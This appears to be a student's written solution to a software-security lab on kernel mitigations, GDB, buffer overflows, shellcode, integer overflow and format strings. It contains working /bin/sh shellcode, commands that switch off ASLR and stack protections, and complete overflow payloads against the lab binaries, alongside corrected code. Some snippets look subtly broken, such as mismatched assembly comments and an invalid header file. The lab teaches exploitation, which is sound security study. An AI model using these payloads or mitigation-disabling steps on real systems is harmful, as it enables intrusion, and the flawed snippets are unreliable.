


### Exercise 1: Kernel features
__a) What is your current kernel version? and which kind of security mechanisms does it support to prevent or to mitigate the risk of stack-based buffer overflow exploits?__
__Solution :__ 
- To check your kernel version use the command `uname -a`.
  
 

 - It supports 
   - __ASLR :__  Address Space Layout Randomization, Random assignment of addresses like heap, stack, libraries, main executable.
   - __Data execution prevention(DEP)__ ( NX never execute )
   - __Stack Canaries__

  
__b) Briefly explain how you can disable or circumvent these techniques.?__

__Solution :__ 
- To disable ASLR,

```bash
sudo bash -c 'echo "kernel.randomize_va_space = 0" >> /etc/sysctl.conf'
```

- To disable Data execution prevention add the following command to your compiling argument, 
  - `-z execstack`
- To disable Stack Canaries add the following command to your compiling argument,
  - `-fno-stack-protector`

### Exercise 2: GNU Debugger - Helpful commands

__1) Compile the C program example1.c with gcc the GNU Compiler Collection (or clang) using
the command line : `gcc -m32 -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -ggdb`
Explain briefly why we used these options?__ 
- Compile and run,
  


- `-m32`: to generate a 32-bit binary.
- `-fno-stack-protector` : disable the stack canaries.
- `-z execstack` : to disable Data execution prevention so that the content in a stack can be executed.
- `-mpreferred-stack-boundary=2` would align the stack by 4 bytes so that it becomes more consistent and easier to exploit.
- `ggdb`:  produces debugging information specifically intended for GDB.

__2) Load the program in gdb and run it. Indicate how you achieved this.__

__solution :__
- To load the  program in `gdb`, run the following command in shell.

```bash
$ gdb example1
```

- To run the program use in `gdb`.

```bash
gdb-peda: run
```



- Using the script [PEDA](https://github.com/longld/peda) with GDB.
  
__3)  Set a break point at the function `mult()`.__


__4) Set a break point at a specific position within this function.__

- To set a break point inside `mult()`(in our case after 40 bytes).


__5) List the source code at the positions you set the breakpoints.__


__6) List all breakpoints you set so far..__


__7) Delete the second break point.__


__8) Run the program and print the local variables after the program has entered mult() for the
first time. Explain your results.__


- Garbage values are displayed in local variables before initialization.

__9) Print the content of one single variable.__


__10) Print the content of the variables of interest during the execution of the for-loop in
mult().(three iterations only!)__


__11) Set a new break point at printHello() and execute the program until it reaches this break
point without stepping through every single line of your source code.__




__12) Print the local variable i in binary format.__
__solution :__


__13) Print the last byte of the local variable i in binary format.__
__solution :__


__14) Print the first five characters of the local variable hello in character format.__
__solution :__
```bash
(gdb) x/5c hello
0x56557008:     72 'H'  101 'e' 108 'l' 108 'l' 111 'o'
```


__15). Print the content of the local variable hello in hex format.__
__solution :__
```bash
(gdb) x/12bx  hello
0x56557008:     0x48    0x65    0x6c    0x6c    0x6f    0x20    0x77    0x6f
0x56557010:     0x72    0x6c    0x64    0x21

```

### Exercise 3: GNU Debugger - Simple program manipulation

__1) Change the values of i and hello before the printf command in printHello() is executed (check your changes by printing the variables with commands of gdb).__
__solution :__  


__2) Change one single character within the string hello to hallo (assigning a new string differing in one character is not accepted here).__
__solution :__  


__3) Display the address of printf and try to list the source code at this address. Explain your results and repeat this task with the printHello() function__


- `printf` is an external function so it didn't list the source code like the `printHello` (internal function of the program).

__4) Use the info command to find out more about the current stack frame.__
__solution :__


__5) Display registers and stack__
__solution :__


 Main stack frame
- stack pointer `$esp` register points to top of the stack which contains `0x20` and also EIP  and current line points to same address.
 ### Exercise 4: Simple buffer overflow - Overwrite local variables

 __1) Shortly explain in your own words, why this program is vulnerable.__  
 __solution :__
 - The program is vulnerable because it reads user input till it receives EOF and there is no check on input size which will be stored in buffer. If the user input size is greater than the buffer size,  buffer overflow occurs, which can be exploited.

__2) Indicate, how you exploit this program to get the desired message "Congratulations! You win!". Deliver your exploit.__  
__solution :__

payload:

```bash
$  python -c "print('A'*20 + '\x30\x40\x20\x10')" | ./example2; 


```


__3) Show a memory layout of the main stack frame, before and after the exploit (draw and explain it).__

__solution :__

- `readInput` expects user input as an argument which stores in buffer of length 20.
- Since no bounds check on buffer, this can be overflown if the input length is greater than 20.
- Which eventually overwrites the next variable in the stack i.e.`pivot`

- This can be overwritten by specifying the address after th buffer length(`20 bytes buffer + pivot`)


__4) Why is this exploit possible and how could a developer have prevented it?__  

__solution :__

- This is exploitable because of the `readInput()` which does'nt check the bounds of `buffer`.

- Prevention: Checking bounds
- Sample code
```c 
  void readInput(char *buf) {
   int offset = 0;
   int ch = 0;
   while((ch = getchar()) != EOF && offset < 20) {
    \\ offset limit can also set dynamically
    buf[offset++] = (char)ch;
   }
  }
```


### Exercise 5: Buffer overflows - Overwrite function pointers

__1) Briefly describe the normal behavior of this program and explain why this program is
vulnerable.__
 - The program expects two cmd line arguments, `arg 1` will be copied into the buffer and `arg 2`, length is checked and passed to `fctPtr`. If the length is greater than 1(`arg2`) then `fctPtr()` points to `printStr()` function else points to `printChar()`.
 - This program is vulnerable because argument 1 is copied into the stack without checking if the size of the input is less than the buffer size, which can overflow the stack, and `fctPtr` can be overwritten. 

__2) Indicate the input to this program and the tools you used to successfully exploit the program__

__solution :__
- Tools used:
  1. GDB debugger
  2. Python


__3) Together with your input, outline the stack content before (this is, shortly before your input
manipulates the future program behavior) and after the exploit__  
__Solution :__


__4) Describe the irregular control flow your input induced (next instruction executed and why).__  
__Solution :__  
If the `argument2` length is not greater than 1 then   `fctPtr` should point to  `printChar()`, but its pointing to `printStr`, which prints `String: a`, because `fctPtr` is overwritten with address of `printStr`.


__5) Briefly describe a scenario in which you may get full control over a system due to this
vulnerability__  
__solution__


the `fctPtr` can be pointed to system address, but this contains `null bytes`, which terminates the payload, unable to point to system function.


- But in general, This vulnerability allows arbitrary code execution(if successfully pointed to `system`). A malicious attacker might be able to run  commands, thus one may get full control over the system.

- Another way to exploit is using `ret2libc` attack.
### Exercise 6: Buffer overflows - A more realistic exploit.

__1. Briefly explain why this program is exploitable?__
__Solution :__ Function `strcpy` accepts user input `argv[1]` and copies the C string into buffer without checking the bounds. `strcpy` also has no way of knowing low large the destination vuffer size is.

__2 Provide some C source code that contains assembler instructions executing a shell (e.g.
/bin/sh) and.__
__solution__

```c
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = "\x31\xc0\x31\xc9\x31\xd2\x6a\x0b\x58\x68\x38\x53\xf5\xf7\x5b\xcd\x80";
int main(){
  printf("Shellcode Length: %d\n", strlen(shellcode));
  int (*ret)() = (int(*)())shellcode;
  ret();
}

```


__3. comment your assembler code.__
__solution :__

```nasm
global _start

SECTION .text

_start:
    xor eax, eax  ; clear eax registers
    push eax    ; push eax into stack
    ; push 68732f6e69622f2f2f2f = '////bin/sh' into stack
    push 0x68736162 
    push 0x2f6e6962
    push 0x2f2f2f2f
    push esp  ; push stack pointer
    pop ebx ; copy stack pointer into ebx
    push 0xb  ; syscall number 11 for execve 
    pop eax  
    int 0x80 ; pass control to interupt
          
```

__4. Compile this program and describe how you use some tool to extract the hexadecimal
representation of your binary. Deliver a C header file in which you use your hexadecimal
representation to fill a character array. Deliver a C program which tests your program from
the last step and shortly describe how it works.__

```bash
$ nasm -felf32 shlle32_v2.nasm -o shell32v2.o   
```
Using `objdump` to extract machine specific instructions (in hexadecimal) from object file generated `shell32v2.o`


__Header file__

payload.h

```c
extern char hexContent={"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x54\x5b\x6a\x0b\x58\xcd\x80"};

```

c program

```c

#include<stdio.h>
#include<string.h>
#include "payload.h"

unsigned char shellcode[] = hexContent
int main(){
  printf("Shellcode Length: %d\n", strlen(shellcode));
  int (*ret)() = (int(*)())shellcode;
  ret();
}

```


__5. Modify your assembler code from step two so that it generates a binary that can be copied
completely in your buffer (using strcpy). Indicate your modifications and explain the
constraints your binary has to fulfill and why.__

__solution__
- The object code generated from previous step does'nt produces `null` bytes or any bad characters which can be used directly in this step.


__6: Your shellcode is now ready for insertion. Describe in your own words how you construct the
input to exploit example4.c and outline the corresponding content.__

__Solution__

__step 1:__ Fill the buffer with characters(`'AAA..'`) until segmentation fault occurs (which indicates that program has crashed due to illegal read or write(in our case) of memory location).


__step 2:__ locate Instruction Pointer `ip` and overwrite it with known characters.

 

- Check `dmesg`(tool to examing the buffer) found that `ip` is overwritten with `42424242`(`BBBB` in ASCII) which is last 4 bytes of our input, so the offset is 264.

- set breakpoint at `strcpy` and step inside the function call.


- Examine `$esp` to verify contents have been copied properly into the buffer 


- Pick any of the starting addresses from the stack `0xffffcefc`(in our case).

- Now use this address to overwrite the instruction pointer `ip` to point to our shellcode.

- Calculate shellcode length(`20 bytes`)
- Fill the buffer with no-ops `\x90` +`20 bytes shellcode` + `return address` which should result to 268 bytes(`offset` + `return address`) and run


payload

```bash
./example4 $(python -c "print('\x90'*208   + '\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\xfc\xce\xff\xff' * 10  )")

```
- payload breakdown
`208 bytes` (no-ops) + `20 bytes` shellcode + `4 bytes` return address * 10 = `268 bytes`.


<br>
### Exercise 7: Integer Overflow

__1) Explain why you are able to crash the program and what type of error you encountered.__

- Program expects two arguments `argument 1`  which is passed to `atoi`(`ascii to Integer`)  and stored in a variable `s` (type:`unsigned short`) and argument2 will be copied into `buf` using `snprintf`.
- size of the buffer is checked as `short`(`16 bytes`) and  `snprintf` uses `int` value to the argument which stores the maximum number of bytes into the buffer.

- This typecasting results in using a numeric value that is outside of the range of short and `buffer size` check can be bypassed.


__2) Briefly explain the input you used to crash the program.__

- Input (argument 1 =`65536` argument2 = `$(python3 -c "print('A'*110)")`)  

```bash
shashi@ubuntu:~$ ./integer_overflow 65538 $(python3 -c "print('A'*110)")
atoi(argv[1]) = 65538, 0x00010002
s = 2, 0x2
Buffer = 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
Segmentation fault (core dumped)

```


__3) Correct the code to avoid this vulnerability. Deliver the corrected code!__
- Declare variable `s` as int 


```c
void usage(const char *pname);
//________________________________________________________
int main(int argc, char **argv) {
	int s;  // Modified
	char buf[100];

	if(argc != 3) {
		fprintf(stderr, "Error: wrong number of arguments.\n");
		usage(argv[0]);
		return -1;
	}

	s = atoi(argv[1]);

	printf("atoi(argv[1]) = %d, 0x%08x\n", atoi(argv[1]), atoi(argv[1]));
	printf("s = %hd, 0x%hx\n", s, s);

	if(s > sizeof(buf) - 1) {
		printf("Error: Input is too large\n");
		return -1;
	}

	snprintf(buf, atoi(argv[1])+1, "%s", argv[2]);
	printf("Buffer = '%s'\n", buf);

	return 0;
}
//________________________________________________________
void usage(const char *pname) {
    ...
}

```

### Exercise 8: Format string functionality

__1) Roughly outline the stack structure ( position in and allocated size on the stack for all arguments to printf )__

- 

__2) Use a short sample program and gdb to verify your answers from the last subtask. Deliver a
gdb-printout of the stack ( and your sample program of course ) in which you can identify
and explain the relevant parts and positions of the arguments.__
- Sample program

 ```c
  #include <stdio.h>
  int main(){
   char *somestring = "Some characters";
   printf("An integer:%d,Guess:%f,Some string:%s\n",3141,3.141,somestring);
  }
 ```

- The main stack frame consits of somestring.

  


__3) Use the last two subtasks to explain the behavior of the given code when you omit the
argument somestring. If possible verify your results with the printf function of gdb.__  
__solution:__ 
If format string is specifiefd and no parameter is passed, then it fetches the content from top of the stack (in our case `somestring`).


